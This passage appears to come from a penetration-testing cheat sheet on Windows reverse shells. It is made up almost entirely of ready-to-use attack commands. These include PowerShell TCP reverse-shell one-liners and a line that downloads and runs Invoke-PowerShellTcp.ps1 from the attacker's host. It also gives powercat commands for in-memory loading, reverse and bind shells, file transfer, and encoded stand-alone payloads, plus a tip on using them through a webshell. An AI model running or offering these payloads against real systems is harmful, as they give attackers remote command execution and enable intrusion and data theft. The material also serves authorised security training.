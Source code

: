 powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&#x26;1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
# ANOTHER ONE (URL ENCODE IT IF USING IT IN A WEBSHELL)
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('&#x3C;ip>',&#x3C;port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&#x26;1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
# ANOTHER ONE
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
</code></pre>

### C++

[https://github.com/tudorthe1ntruder/reverse-shell-poc](https://github.com/tudorthe1ntruder/reverse-shell-poc)

### Powercat (like Netcat but in PS)

<pre class="language-powershell" data-overflow="wrap" data-full-width="true"><code class="lang-powershell">https://www.hackingarticles.in/powercat-a-powershell-netcat/
# Powershell script, more efficient than revshell as we can download and execute it on memory without touching the disk as well
IEX (New-Object System.Net.Webclient).DownloadString("http://$IP/powercat.ps1");powercat -c $IP -p 4444 -e powershell

https://github.com/besimorhino/powercat/blob/master/powercat.ps1
PS> powercat -h
sudo nc -lnvp 443 > receiving_powercat.ps1 # to receive a file
PS> powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1 # to send a file
apt install powercat ---> /usr/share/windows-resources/powercat
# DOT SOURCING
. .\powercat.ps1
# REVERSE SHELL
powercat -c $IP -p 443 -e cmd.exe
# BIND SHELL
powercat -l -p 443 -e cmd.exe # (VICTIM)
nc 10.11.0.22 443 # attacker
# Stand-alone payload (first start listener on Kali)
PS> powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1
PS> ./reverseshell.ps1
# ENCODE COMMAND
PS> powercat -c $IP -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
<strong># TO EXECUTE IT
</strong>PS> powershell.exe -E $ENCODED_PAYLOAD # (ALL THE PAYLOAD, EVEN IF IT'S HUGE)